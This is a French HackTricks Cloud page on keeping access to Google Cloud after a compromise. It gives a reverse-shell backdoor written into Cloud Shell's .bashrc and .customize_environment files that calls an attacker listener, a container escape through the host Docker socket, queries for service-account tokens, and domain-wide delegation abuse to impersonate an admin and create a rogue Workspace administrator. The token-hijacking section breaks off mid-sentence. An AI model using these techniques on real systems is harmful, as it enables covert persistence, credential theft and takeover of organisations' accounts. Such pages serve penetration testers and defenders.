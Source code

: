 # GCP - Non-svc Persistance

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFT exclusifs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

Ces techniques sont utiles une fois que vous avez compromis des informations d'identification ou une machine GCP.

## Google’s Cloud Shell <a href="#e5eb" id="e5eb"></a>

### Backdoor persistante

[**Google Cloud Shell**](https://cloud.google.com/shell/) vous fournit un accès en ligne de commande à vos ressources cloud directement depuis votre navigateur sans aucun coût associé.

Vous pouvez accéder à Google Cloud Shell depuis la **console Web** ou en exécutant **`gcloud cloud-shell ssh`**.

Cette console a certaines capacités intéressantes pour les attaquants :

1. **Tout utilisateur Google ayant accès à Google Cloud** a accès à une instance Cloud Shell entièrement authentifiée.
2. Cette instance **conservera son répertoire personnel pendant au moins 120 jours** s'il ne se passe aucune activité.
3. Il n'y a **aucune capacité pour une organisation de surveiller** l'activité de cette instance.

Cela signifie essentiellement qu'un attaquant peut mettre une porte dérobée dans le répertoire personnel de l'utilisateur et tant que l'utilisateur se connecte à GC Shell tous les 120 jours au moins, la porte dérobée survivra et l'attaquant obtiendra un shell chaque fois qu'elle sera exécutée simplement en faisant :

```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```

Il y a un autre fichier dans le dossier personnel appelé **`.customize_environment`** qui, s'il existe, sera **exécuté à chaque fois** que l'utilisateur accède au **cloud shell** (comme dans la technique précédente). Insérez simplement la porte dérobée précédente ou une porte dérobée comme celle-ci pour maintenir la persistance tant que l'utilisateur utilise "fréquemment" le cloud shell :

```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```

{% hint style="warning" %}
Notez que la **première fois qu'une action est effectuée dans Cloud Shell qui nécessite une authentification**, une fenêtre d'autorisation **apparaît** dans le navigateur de l'utilisateur qui doit être acceptée avant que la commande ne s'exécute. Si une fenêtre contextuelle inattendue apparaît, la cible pourrait devenir suspicieuse et brûler la méthode de persistance.
{% endhint %}

### Évasion de conteneur Google Cloud Shell

Notez que Google Cloud Shell s'exécute à l'intérieur d'un conteneur, vous pouvez donc **facilement vous échapper vers l'hôte** en faisant :

```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```

Cela n'est pas considéré comme une vulnérabilité par Google, mais cela vous donne une vision plus large de ce qui se passe dans cet environnement.

De plus, notez que depuis l'hôte, vous pouvez trouver un jeton de compte de service :

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```

Avec les autorisations suivantes :

```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```

## Détournement de jeton

### Utilisateur authentifié

Si vous parvenez à accéder au dossier personnel d'un **utilisateur authentifié
## Propagation vers Workspace via la délégation de domaine <a href="#spreading-to-g-suite-via-domain-wide-delegation-of-authority" id="spreading-to-g-suite-via-domain-wide-delegation-of-authority"></a>

[**Workspace**](https://gsuite.google.com) est la plateforme de collaboration et de productivité de Google qui comprend des éléments tels que Gmail, Google Calendar, Google Drive, Google Docs, etc.

Les **comptes de service** dans GCP peuvent se voir accorder les **droits d'accès programmable aux données utilisateur** dans Workspace en se faisant passer pour des utilisateurs légitimes. Cela est connu sous le nom de [délégation de domaine](https://developers.google.com/admin-sdk/reports/v1/guides/delegation). Cela inclut des actions telles que la **lecture** des **e-mails** dans GMail, l'accès à Google Docs et même la création de nouveaux comptes utilisateur dans l'organisation G Suite.

Workspace dispose de [sa propre API](https://developers.google.com/gsuite/aspects/apis), complètement séparée de GCP. Les autorisations sont accordées à Workspace et **il n'y a pas de relation par défaut entre GCP et Workspace**.

Cependant, il est possible de **donner** à un compte de service **des autorisations** sur un utilisateur Workspace. Si vous avez accès à l'interface Web à ce stade, vous pouvez accéder à **IAM -> Comptes de service** et voir si l'un des comptes a **"Activé" répertorié sous la colonne "délégation de domaine"**. La colonne elle-même peut **ne pas apparaître si aucun compte n'est activé** (vous pouvez lire les détails de chaque compte de service pour confirmer cela). Au moment de la rédaction de cet article, il n'y a aucun moyen de le faire de manière programmatique, bien qu'il y ait une [demande de cette fonctionnalité](https://issuetracker.google.com/issues/116182848) dans le bug tracker de Google.

Pour créer cette relation, il est nécessaire de **l'activer dans GCP et également dans Workforce**.

#### Test d'accès à Workspace

Pour tester cet accès, vous aurez besoin des **informations d'identification du compte de service exportées au format JSON**. Vous avez peut-être acquis celles-ci à une étape antérieure, ou vous avez peut-être maintenant l'accès requis pour créer une clé pour un compte de service que vous savez avoir une délégation de domaine activée.

Ce sujet est un peu délicat... votre compte de service a quelque chose appelé "client\_email" que vous pouvez voir dans le fichier d'informations d'identification JSON que vous exportez. Il ressemble probablement à `nom-du-compte@nom-du-projet.iam.gserviceaccount.com`. Si vous essayez d'accéder directement aux appels d'API Workforce avec cet e-mail, même avec la délégation activée, vous échouerez. Cela est dû au fait que l'annuaire Workforce ne comprendra pas les adresses e-mail des comptes de service GCP. Au lieu de cela, pour interagir avec Workforce, nous devons réellement nous faire passer pour des utilisateurs Workforce valides.

Ce que vous voulez vraiment faire, c'est **vous faire passer pour un utilisateur ayant un accès administratif**, puis utiliser cet accès pour faire quelque chose comme **réinitialiser un mot de passe, désactiver l'authentification multi-facteurs ou simplement créer un nouveau compte administrateur brillant**.

Gitlab a créé [ce script Python](https://gitlab.com/gitlab-com/gl-security/gl-redteam/gcp\_misc/blob/master/gcp\_delegation.py) qui peut faire deux choses - lister l'annuaire utilisateur et créer un nouveau compte administrateur. Voici comment vous l'utiliseriez :

```bash
# Valider l'accès uniquement
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com

# Liste de l'annuaire
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --list

# Créer un nouveau compte administrateur
./gcp_delegation.py --keyfile ./credentials.json \
    --impersonate steve.admin@target-org.com \
    --domain target-org.com \
    --account pwned
```

Vous pouvez essayer ce script sur une gamme d'adresses e-mail pour vous faire passer pour **divers utilisateurs**. La sortie standard indiquera si le compte de service a accès à Workforce ou non, et inclura un **mot de passe aléatoire pour le nouveau compte administrateur** s'il est créé.

Si vous réussissez à créer un nouveau compte administrateur, vous pouvez vous connecter à la [console d'administration Google](https://admin.google.com) et avoir un contrôle total sur tout dans G Suite pour chaque utilisateur - e-mail, documents, calendrier, etc. Amusez-vous bien.

## Références

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous voulez voir votre **entreprise annoncée dans HackTricks** ou si vous voulez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>